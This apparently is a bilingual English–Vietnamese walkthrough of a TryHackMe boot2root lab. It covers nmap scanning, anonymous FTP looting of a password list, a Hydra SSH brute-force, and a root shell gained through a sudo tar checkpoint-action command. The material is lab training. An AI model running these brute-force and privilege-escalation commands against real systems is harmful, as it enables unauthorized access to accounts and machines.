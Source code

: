 
## TL;DR (Quick summary)  
- Boot2root style box: enumerate → anonymous FTP → collect wordlist → brute SSH → get user flag → abuse `sudo tar` to get root.  
( Tóm tắt: quét → FTP anonymous → lấy danh sách mật khẩu → brute SSH → lấy flag user → lợi dụng `sudo tar` để lên root. )

---

## Goals / Objectives  
1. Find `user.txt` (user flag). (Tìm `user.txt`.)  
2. Find `root.txt` (root flag). (Tìm `root.txt`.)  

---

## Environment & Tools  
- Kali / Parrot / AttackBox (terminal)  
- nmap, ftp, hydra (or similar), ssh, tar  
( **Môi trường & công cụ:** Kali / Parrot / AttackBox, nmap, ftp, hydra, ssh, tar )

---

## 1) Enumeration — Nmap
**Command**
```bash
sudo nmap -sV -sC -v -oN nmap_initial <TARGET_IP>
```
**What we expect**
- Found open ports: `21/tcp (ftp)`, `22/tcp (ssh)`, `80/tcp (http)`.  
( Kết quả mong đợi: port mở: 21 (ftp), 22 (ssh), 80 (http). )

---

## 2) Visit web (port 80)
- Open `http://<TARGET_IP>` in browser. The page is simple (banner / theme) and doesn't immediately expose credentials.  
( Mở trang web, chỉ có banner/giao diện, không thấy creds ngay lập tức. )

---

## 3) FTP — try anonymous
**Commands**
```bash
ftp <TARGET_IP>
# when prompted:
# username: anonymous
# password: anything (or press enter)
ls -la
get locks.txt
get task.txt
quit
```
**Notes**
- Anonymous FTP allowed. We find `locks.txt` (a password list/munge list) and `task.txt` (contains author info / hints).  
( FTP anonymous cho phép. Tìm thấy `locks.txt` (danh sách mật khẩu) và `task.txt` (thông tin/gợi ý). )

---

## 4) Read the files
```bash
cat task.txt     # contains author / clue (e.g., name "lin")
less locks.txt   # contains many candidate password variations
```
**Use**
- `task.txt` reveals the username to try (e.g., `lin`).  
- `locks.txt` is used as a password list for brute forcing SSH.  
( `task.txt` lộ username (ví dụ `lin`). `locks.txt` làm wordlist cho brute SSH. )

---

## 5) Bruteforce SSH with Hydra (or similar)
**Command**
```bash
hydra -l lin -P locks.txt ssh://<TARGET_IP>
```
**Result**
- Hydra finds the password for `lin` (in writeups it's commonly reported as an example).  

---

## 6) SSH in as lin (user)
**Command**
```bash
ssh lin@<TARGET_IP>
# password: <found_password>
```
**After login**
```bash
whoami
ls -la
cat user.txt            # get user flag
```
**Example user flag**
```
THM{EXAMPLE_USER_FLAG}
```
( SSH đăng nhập bằng tài khoản `lin`, cat `user.txt` để lấy flag user. )

---

## 7) Privilege Escalation — sudo rights
**Check sudo rights**
```bash
sudo -l
```
- You should see that `lin` can run `tar` with `sudo` (i.e., `lin ALL=(root) NOPASSWD: /bin/tar` or similar).  
( Chạy `sudo -l` để kiểm tra; tài khoản `lin` có quyền chạy `tar` bằng sudo.)

---

## 8) Abuse `tar` via GTFOBins to spawn root shell
**Why this works**
- GNU `tar` supports `--checkpoint` and `--checkpoint-action=exec` which can be used to execute a command as the running user; if run under `sudo` it runs as root. GTFOBins documents this exact technique.  
( `tar` có tuỳ chọn `--checkpoint-action=exec` để thực thi lệnh; nếu chạy bằng `sudo` thì lệnh đó sẽ chạy với quyền root — chiêu này có trên GTFOBins.)
- Hoặc lên trang GTFOsbins để tìm payload

**Command (get root shell)**
```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
# now you should have a root shell
whoami   # should output: root
cat /root/root.txt
```
**Example root flag**
```
THM{EXAMPLE_ROOT_FLAG}
```
( Dùng `sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh` để spawn shell root, rồi `cat /root/root.txt` để lấy flag root. )

---

## 9) Cleanup & notes
- All steps above follow standard enumeration → exploit flow. If `tar` trick doesn't work, re-check `sudo -l` output and verify GNU tar presence. Alternative escalation vectors: search for SUID binaries, writable files, scheduled jobs, etc. Tools like `linpeas` help enumerate faster.  
( Nếu chiêu `tar` không ăn, kiểm tra lại `sudo -l` và đảm bảo có GNU tar. Ngoài ra tìm kiếm SUID, cron, file writable; `linpeas` hỗ trợ tự động enum. )

---

## References / Further reading
- TryHackMe — Bounty Hacker room page.  
- GTFOBins — tar (privilege escalation technique).  
- Community writeups and walkthroughs (InfosecWriteups, Medium, blogs).  
( Tham khảo: trang TryHackMe, GTFOBins, các writeup cộng đồng. )

---

